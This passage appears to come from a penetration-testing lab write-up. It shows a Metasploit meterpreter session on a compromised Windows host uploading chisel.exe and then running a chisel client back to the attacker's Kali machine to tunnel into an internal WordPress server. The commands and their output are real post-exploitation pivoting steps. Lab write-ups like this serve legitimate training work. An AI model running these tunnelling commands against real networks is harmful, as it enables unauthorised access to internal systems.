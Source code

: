 ```bash
msf6 auxiliary(server/socks_proxy) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload chisel.exe C:\\Users\\marcus\\chisel.exe
[*] Uploading  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Uploaded 7.85 MiB of 7.85 MiB (100.0%): /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Completed  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe

```

{% code overflow="wrap" %}
```batch
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)

```
{% endcode %}

{% hint style="info" %}
I ran into several issues with chisel here. In my case, I just stopped using it and resorted to `proxychains firefox &` and went directly to http://172.16.6.241
{% endhint %}

With chisel connected, we can now browse to port 80 on 172.16.6.241 via port 80 on our Kali machine (127.0.0.1) by using Firefox:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>WordPress page on INTERNALSRV1 (172.16.6.241)</p></figcaption></figure>
